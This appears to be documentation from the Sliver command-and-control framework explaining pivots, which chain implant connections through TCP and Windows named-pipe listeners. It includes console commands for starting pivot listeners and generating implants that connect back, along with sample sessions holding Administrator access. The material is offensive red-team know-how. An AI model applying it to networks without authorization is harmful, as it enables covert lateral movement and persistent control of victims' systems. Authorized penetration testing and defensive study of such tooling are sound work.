 ⚠️ __IMPORTANT:__ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment. 

⚠️ __IMPORTANT:__ Pivots can only be used in "session mode" (we may add beacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](https://github.com/BishopFox/sliver/wiki/Transport-Encryption#implant-to-implant-key-exchange-pivots) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server. This behavior cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms. 

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener, where `192.168.1.1` is the local IP of the server on which we started the listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a name, remote clients are always allowed to connect to the pipe, but the default ACL will only allow the current user/group. You can allow all user/groups by using the `--allow-all` flag:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:09:20 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 192.168.1.1/pipe/foobar` note here we may need to specify the IP address of the listener: `192.168.1.1`. The syntax is `<host>/pipe/<pipe name>`, note that `.` is equivalent to `127.0.0.1`. This is just the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:15:11 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID         Name            Transport   Remote Address                         Hostname          Username                        Operating System   Last Check-In                   Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b   ROUND_ATELIER   pivot       192.168.1.178:59290->WARM_DRIVEWAY->   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
 a2615359   WARM_DRIVEWAY   mtls        192.168.1.178:59290                    WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
```

⚠️ __IMPORTANT:__ In some environments you may need to use the `--allow-all` flag when starting the pviot listener to allow all users/groups
